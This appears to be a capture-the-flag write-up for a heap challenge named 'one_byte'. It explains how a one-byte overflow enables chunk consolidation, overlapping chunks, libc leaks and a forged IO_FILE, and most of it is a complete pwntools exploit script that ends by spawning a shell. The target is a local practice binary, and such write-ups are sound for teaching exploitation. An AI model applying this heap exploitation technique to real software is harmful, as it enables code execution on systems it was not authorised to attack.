

we are given the option to malloc 16 * 0x60 chunks and to free, edit and read said chunks 


the read option is rather interesting, as we can edit 1 byte more than the requested size

this gains us a few great apparatus, including:

1. clearing the in_use bit for consodilation, which leads to overlapping chunks, which leads to UAF
2. changing the size of a chunk, which let us forge whatever size we want, with the first apparatus 

because the small bin is a linked list, when IO_flush_all_lockp walk through the chain in IO_list_all, some few bins are treated as file, such as the 0x40 bin, the 0xb0 bin, etc

by forging some fake chunk with fake size and use malloc to push the fake chunk into the coresponding smallbin, we can guild the IO_FILE chain to our heap

by consodilating a chunk that being freed with a chunk that is live, then malloc'ing a chunk out of the hypothetical freed chunk, our live chunk that is consolidated is treated as a freed chunk, linked against the unsorted bin, or the smallbin with other chunk of the same size. With that, we can leak the address of heap and the address of libc 

back to the fake IO_FILE we forged in the heap, one can mess with the vtable and build a ROP chain to spawn a shell, maybe even a root shell

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./one_byte")
libc = exe.libc

context.binary = exe
# context.log_level="debug"

script='''
b main
c
b*_IO_flush_all_lockp+509
b execve
c
c
c
'''

def malloc():
    r.recvuntil(">")
    r.sendline("1")

def free(id):
    r.recvuntil(">")
    r.sendline("2")
    r.recvuntil("index:")
    r.sendline(str(id).encode())

def edit(id, data):
    r.recvuntil(">")
    r.sendline("3")
    r.recvuntil("index:")
    r.sendline(str(id).encode())
    r.recvuntil("data:")
    r.send(data)

def read(id):
    r.recvuntil(">")
    r.sendline("4")
    r.recvuntil("index:")
    r.sendline(str(id).encode())

def main():
    global r

    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    # 0x20+0x50*var
    # smallbin 0xb0 -> 0x110 chunk -> 0xc0+0xb0-0x60
    # consodilation

    malloc()
    malloc()
    malloc()
    malloc()
    malloc()
    malloc()
    malloc()

    payload=flat(
        b"\x00"*0x58,
        b"\xc1"
    )
    edit(0,payload)

    payload=flat(
        b"\x00"*0x58,
        b"\xb1"
    )
    edit(2,payload)

    payload=flat(
        b"\x00"*0x28,
        0x21,
        0,
        0,
        0,
        0x21,
        0,
        b"\xb1"
    )
    edit(4,payload)

    payload=flat(
        0,
        0x21,
    )
    edit(5,payload)

    payload=flat(
        b"\x00"*0x48,
        0x21,
    )
    edit(6,payload)

    # padding for vtable

    free(3)

    payload=flat(
        b"\x00"*0x28,
        0x21,
        0,
        0,
        0,
        0x21
    )
    edit(4,payload)

    malloc()

    payload=flat(
        b"\x00"*0x58,
        b"\x91"
    )
    edit(2,payload)

    malloc()

    payload=flat(
        0,
        0x21,
    )
    edit(8,payload)

    free(5)
    malloc()

    payload=flat(
        0,
        0x21,
    )
    edit(9,payload)


    # obtain libc_base

    read(6)
    data=r.recvline()
    data=data[:7]
    data=data[1:]
    libc_base=u64(data.ljust(8,b"\x00"))-0x399b78

    # smallbin 0xb0 creation

    free(7)
    free(1)

    payload=flat(
        0,
        0,
        0,
        1
    )
    edit(2,payload)

    malloc()

    payload=flat(
        b"\x00"*0x58,
        b"\xb1"
    )
    edit(10,payload)

    payload=flat(
        0x3636363636363636,
        b"\x10\xa5"
    )
    edit(2,payload)

    payload=flat(
        0x3636363636363636,
        libc_base+0x000000000006602f,
        0,
        0,
        0,
        libc_base+0xd670d
    )
    edit(6,payload)

    malloc()

    r.interactive()


if __name__ == "__main__":
    main()

```

///this exploit spawn a shell